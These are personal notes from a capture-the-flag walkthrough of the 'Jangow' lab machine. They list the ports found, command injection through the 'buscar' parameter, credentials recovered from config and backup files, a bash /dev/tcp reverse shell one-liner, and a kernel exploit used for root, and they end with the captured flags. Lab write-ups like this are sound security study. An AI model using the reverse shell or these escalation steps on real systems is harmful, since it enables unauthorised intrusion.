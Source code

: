 # IP Address
192.168.56.118

# Ports Discovery
21 ftp
80 http

# Dir of interest
/site

# Useful exploit 
https://www.exploit-db.com/exploits/46676
https://www.exploit-db.com/exploits/45010

# Timeline
 - The Buscar link is vulnerable to local file injection (LFI). "buscar=" parameter prints out results for bash commands like pwd
 - Found a Wordpress Folder that can have some crucial data.
 - Found a config.php that contains username and password
 - username: desafio02 password: abygurl69 (doesn't work for ftp)
 - pwd prints /var/www/html/site
 - moving up a directory reveals .backup file which contains username and password
 - username: jangow01 password: abygurl69 (worked for ftp)
 - Found user flag in jangow01 directory
 - trying to upload php pentestmonkry reverse shell but ftp not allowing file upload
 - /bin/bash -c 'bash -i >& /dev/tcp/192.168.56.1/4444 0>&1' ... passing this as busque parameter
 - its sanitised so sending it by urlencoding it\
 - reverse shell worked, using linpeas.sh for privesc
 - linpeas detected a kernel exploit CVE-2017-16995 that I can use for  privEsc
 - Downloading the exploit and sending it to the target using ftp
 - using gcc to execute the exploit, gives me the root shell
 - got the final flag, proof.txt at /root directory 

# Flags

User: d41d8cd98f00b204e9800998ecf8427e

root:
                        @@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@&&&&&&&&&&&&&&                          
                       @  @@@@@@@@@@@@@@@&#   #@@@@@@@@&(.    /&@@@@@@@@@@                          
                       @  @@@@@@@@@@&( .@@@@@@@@&%####((//#&@@@&   .&@@@@@                          
                       @  @@@@@@@&  @@@@@@&@@@@@&%######%&@*   ./@@*   &@@                          
                       @  @@@@@* (@@@@@@@@@#/.               .*@.  .#&.   &@@@&&                    
                       @  @@@, /@@@@@@@@#,                       .@.  ,&,   @@&&                    
                       @  @&  @@@@@@@@#.         @@@,@@@/           %.  #,   %@&                    
                       @@@#  @@@@@@@@/         .@@@@@@@@@@            *  .,    @@                   
                       @@&  @@@@@@@@*          @@@@@@@@@@@             ,        @                   
                       @&  .@@@@@@@(      @@@@@@@@@@@@@@@@@@@@@        *.       &@                  
                      @@/  *@@@@@@@/           @@@@@@@@@@@#                      @@                 
                      @@   .@@@@@@@/          @@@@@@@@@@@@@              @#      @@                 
                      @@    @@@@@@@@.          @@@@@@@@@@@              @@(      @@                 
                       @&   .@@@@@@@@.         , @@@@@@@ *            .@@@*(    .@                  
                       @@    ,@@@@@@@@,   @@@@@@@@@&*%@@@@@@@@@,    @@@@@(%&*   &@                  
                       @@&     @@@@@@@@@@@@@@@@@         (@@@@@@@@@@@@@@%@@/   &@                   
                       @ @&     ,@@@@@@@@@@@@@@@,@@@@@@@&%@@@@@@@@@@@@@@@%*   &@                    
                       @  @@.     .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%*    &@&                    
                       @  @@@&       ,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%/     &@@&&                    
                       @  @@@@@@.        *%@@@@@@@@@@@@@@@@@@@@&#/.      &@@@@&&                    
                       @  @@@@@@@@&               JANGOW               &@@@                          
                       @  &&&&&&&&&@@@&     @@(&@ @. %.@ @@%@     &@@@&&&&                          
                                     &&&@@@@&%       &/    (&&@@@&&&                                
                                       (((((((((((((((((((((((((((((





da39a3ee5e6b4b0d3255bfef95601890afd80709


